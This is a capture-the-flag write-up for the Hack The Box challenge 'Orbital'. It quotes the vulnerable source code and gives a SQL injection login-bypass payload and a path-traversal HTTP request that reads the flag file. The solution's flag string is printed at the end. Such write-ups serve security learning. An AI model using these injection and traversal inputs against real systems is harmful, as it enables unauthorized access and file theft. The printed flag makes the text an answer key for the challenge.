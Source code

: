 # Orbital

We can look at the source to bypass initial login page

```python
# From database.py
def login(username, password):
    # I don't think it's not possible to bypass login because I'm verifying the password later.
    user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)

    if user:
        passwordCheck = passwordVerify(user['password'], password)

        if passwordCheck:
            token = createJWT(user['username'])
            return token
    else:
        return False
        
# From util.py
def passwordVerify(hashPassword, password):
    md5Hash = hashlib.md5(password.encode())

    if md5Hash.hexdigest() == hashPassword: return True
    else: return False
```

We can return a fake sql row as `user` and pass it into `passwordVerify` through the following SQL injection in the username.

`" OR 1=2 UNION ALL SELECT "admin", "5f4dcc3b5aa765d61d8327deb882cf99`

We set the password to the md5 hash of any password we input which in this case is just `password`

Logins to this page

![dashboard](media/img1.PNG)

The source shows the flag is in a .txt file, and so we must leak that file somehow. Looking further in the source we find this.

```python
@api.route('/export', methods=['POST'])
@isAuthenticated
def exportFile():
    if not request.is_json:
        return response('Invalid JSON!'), 400
    
    data = request.get_json()
    communicationName = data.get('name', '')

    try:
        # Everyone is saying I should escape specific characters in the filename. I don't know why.
        return send_file(f'/communications/{communicationName}', as_attachment=True)
    except:
        return response('Unable to retrieve the communication'), 400
```

Which is called from clicking on the export buttons for the different communications.

We can then just pass the path to the flag, to download the flag, which can be found in the dockerfile.

```dockerfile
# copy flag
COPY flag.txt /signal_sleuth_firmware
COPY files /communications/
```

Final post request

```http
POST /api/export HTTP/1.1
Host: 167.172.50.208:30318
Content-Length: 36
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept: */*
Origin: http://167.172.50.208:30318
Referer: http://167.172.50.208:30318/home
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,id;q=0.8
Cookie: session=eyJhdXRoIjoiZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjFjMlZ5Ym1GdFpTSTZJbUZrYldsdUlpd2laWGh3SWpveE5qYzVNekV6T1RNNWZRLjBhZnAwRS1XN2NncndjRzJmM1BXNnFiUV9oa0stUlR0cTljbE9iWDh4VW8ifQ.ZBf3sw.icsTlq6Yq_kJooobampsHz1Pl3E
Connection: close

{
    "name" : "../signal_sleuth_firmware"
}
```

HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}